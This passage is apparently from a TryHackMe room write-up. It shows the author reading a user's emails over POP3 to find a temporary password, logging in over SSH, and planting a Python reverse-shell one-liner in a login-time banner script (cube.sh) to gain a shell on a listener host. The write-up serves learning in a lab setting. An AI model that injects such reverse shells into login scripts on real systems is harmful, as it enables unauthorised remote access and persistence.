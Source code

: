 Task9 — Looking through her emails, what was a temporary password set for her?

Let’s retrieve the 1st message by typing the command RETR 1

<img width="552" height="671" alt="image" src="https://github.com/user-attachments/assets/40dcfe8a-bbfb-43dd-b376-07f5c31ed6d5" />

let’s take a look at the second one RETR 2

<img width="616" height="648" alt="image" src="https://github.com/user-attachments/assets/97fb6dfb-764c-4480-aac5-0aa05f41d157" />

we got : S1ck3nBluff+secureshell

Task10 — connect to the machine using SSH.
<img width="660" height="566" alt="image" src="https://github.com/user-attachments/assets/4d03c789-cb1d-45dd-9061-8d22f097f107" />
<img width="492" height="72" alt="image" src="https://github.com/user-attachments/assets/386e31f0-c42b-41c3-8512-7405ce276fc7" />

by typing the “id” command we can see that baskteen is not root and is just a regular user. No problem tho, let’s searches for files owned by the “users” group on the entire system and look for something useful

>find / -group users -type f 2>/dev/null

<img width="587" height="291" alt="image" src="https://github.com/user-attachments/assets/7a17d210-31e8-4f8f-b4cd-d3f98f94755e" />
the hint provided by TryHackMe points at that cube.sh file , hmmm… wonder what’s in it

<img width="532" height="300" alt="image" src="https://github.com/user-attachments/assets/1f599496-e4cd-4ef0-a267-70bedaeae548" />

it’s the ssh banner, meaning this file is executed whenever we login through ssh. Perfect place to inject our reverse shell. I’ll be using the reverse shell provided by the room

python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’

We can edit the file using nano, dont forget to set up a listener and change your ip address in the reverseshell.

<img width="720" height="416" alt="image" src="https://github.com/user-attachments/assets/2035bb9d-3691-4242-abe8-ec633c952b9f" />

And tha’s itt!!








